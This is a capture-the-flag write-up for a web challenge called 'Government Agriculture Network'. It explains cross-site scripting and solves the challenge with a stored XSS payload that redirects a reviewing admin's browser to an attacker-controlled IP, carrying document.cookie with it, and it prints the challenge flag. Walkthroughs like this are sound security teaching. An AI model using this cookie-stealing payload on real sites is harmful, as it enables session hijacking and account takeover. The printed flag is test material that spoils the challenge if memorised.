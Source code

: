 # Government Agriculture Network (web)

## Prompt

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

## Files

* `xss.txt`: XSS exploit used to get flag.
* `flag.txt`: solution to this challenge.

## Solution 

Heading to  `https://govagriculture.web.ctfcompetition.com/` shows us this lovely little site:

![Agriculture](images/agriculture.png "Img")

Anytime you see a user input field on a web application in a CTF, there's a good chance that there will be some sort of injection or XSS attack. XSS stands for Cross-Site Scripting and is used to get other visitors of a page to run code that you place on the site. `<script>alert(1)</script>` is the classic test case for XSS, but there are a number of more advanced examples out there in the wild.

What makes this page non-trivial in terms of XSS is that everytime content is submitted, this message is issued:

![Admin](images/admin.png "Img")  

What's interesting about this is that presumably an admin of some sort will look at the content and decide if it's appropriate to be posted. We may not be able to get any visiting user to run our code, but we may be able to get the admin to run it when the admin reviews our post. 

I was very surprised that a beginner's quest would require this, but a publicly facing web server does seem to be required to solve this challenge. The idea is that an administrator on a site will have a cookie that allows privileged access to the site without requiring a login for every single request. If this cookie is used in a request to a malicious site it can be stolen.

There are multiple approaches to setting up a public facing web server/listener and there are a ton of articles on how to do that so I won't go into it. Once you have a listener set up where you can observe requests, a specially crafted XSS string can be sent to the admin.

```
<script type="text/javascript">document.location='http://1.2.3.4:8080?c='+document.cookie;</script>
```

Once the admin opens this, the browser will attempt to fetch a document from our server using the cookie as an argument. Replace `1.2.3.4:8000` with your IP/hostname and port, then click submit! On your server you should see a request that contains the flag!

```
CTF{8aaa2f34b392b415601804c2f5f0f24e}
```
